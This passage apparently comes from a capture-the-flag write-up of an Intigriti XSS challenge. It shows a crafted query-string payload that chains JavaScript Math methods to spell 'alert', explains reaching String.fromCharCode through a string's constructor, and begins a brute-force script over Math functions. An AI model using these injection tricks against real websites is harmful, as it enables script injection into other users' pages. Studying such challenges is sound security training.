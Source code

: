 ```
?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push
```

We could execute it on the website calculator and verify with dev tools.

![First String Verification](/static/images/intigriti-0823/alert_pushed.png)

Nice! Now we have another problem we need to open parenthesis but I don’t think (There might be a smarter way or it might have existed btw) there is an open parenthesis in one of the names that we have so what do we do now to generate non alphabetic characters?

### What about non alphabetic characters?

The only thing we could do is to use all the math functions we have in the `Math` object and try to get something in the range `[asciiCode(character), asciiCode(character)+1[` since as we said javascript will cast floats to integers by itself when referencing indices. Well for this one I thought of making a JS script that would bruteforce with all possible functions to generated a desired character then we could use `String.fromCharCode` to convert it to a character. Before starting to talk about the script, how do we access the <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode" target="_blank">fromCharCode</a> `String` method. `String` object is a constructor of any string. So we if access a string first then do `some_string.constructor` we would access to the `String` object from which we can call the `fromCharCode` method on the number we have. Also `String.fromCharCode(97.111)` is equivalent to `String.fromCharCode(97)` so it’s also doing the cast here from float to int.

```js
> String.fromCharCode(97.111)
< 'a'
```

We have bunch of strings we could access as we discussed earlier something like `Math.abs.name` then do `Math.abs.name.constructor.fromCharCode` this would return the method.

```js
> Math.abs.name.constructor.fromCharCode
< ƒ fromCharCode() { [native code] }
```

But my brain favorized using `Math.toString.name` instead of `Math.abs.name` don’t ask me why 😔. Fine. Now into bruteforcing to get the numbers. Here is my Node.js bruteforce script.

```js
let funcs = [
  Math.abs,
  Math.acos,
  Math.acosh,
  Math.asin,
  Math.asinh,
  Math.atan,
  Math.atan2,
  Math.atanh,
  Math.cbrt,
  Math.ceil,
  Math.clz32,
  Math.cos,
  Math.cosh,
  Math.exp,
  Math.expm1,
  Math.floor,
  Math.fround,
  Math.hypot,
  Math.imul,
  Math.log,
  Math.log10,
  Math.log1p,
```